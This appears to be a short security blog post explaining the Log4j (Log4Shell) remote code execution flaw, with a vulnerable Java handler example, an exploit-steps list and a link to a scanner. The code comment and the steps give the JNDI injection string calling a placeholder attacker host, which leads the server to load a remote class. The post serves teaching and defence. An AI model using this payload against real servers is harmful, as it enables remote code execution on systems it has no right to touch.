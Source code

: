 ```yaml
---
layout: post
title:  "Log4J Remote Code Execution"
date:   2021-12-10 19:56:00 +0800
---
```


# [Reference](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# Affected Apache log4j Version
2.0 <= Apache log4j <= 2.14.1

{% highlight Java %}
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
{% endhighlight %}

# Exploit Steps​
* Data from the User gets sent to the server (via any protocol),
* The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
* The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via "Java Naming and Directory Interface" (JNDI),
* This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
* This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

# Scan tool
# [Log4j-scanner](https://github.com/cisagov/log4j-scanner